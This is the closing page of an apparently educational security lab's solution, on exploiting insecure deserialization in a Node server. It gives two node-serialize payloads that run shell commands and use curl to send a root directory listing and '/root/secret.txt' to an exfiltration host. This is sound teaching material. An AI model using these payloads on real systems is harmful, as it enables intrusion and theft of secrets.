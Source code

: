# Lab instructions (3/3)

## Solution 2

Using the following payload, we were able to see which files could be found in
the `root` folder:

```js
{"id":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"ls /root > /tmp/output; curl --data-binary '@/tmp/output' http://nest/\")}()"}
```

This would have alerted us of the file `/root/secret.txt`. Using the same
technique, we are able to view the contents of the file:

```js
{"id":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"curl --data-binary '@/root/secret.txt' http://nest/\")}()"}
```

Congratulations! By exploiting a insecure deserialization vulnerability in the
`tmo` server, you were able to execute arbitrary commands on their server.
Furthermore, by using an exfiltration server you were able to exfiltrate data
from their server.

Note that this lab does not look at exactly what causes the insecure
deserialization vulnerability, or how this could have been prevented.
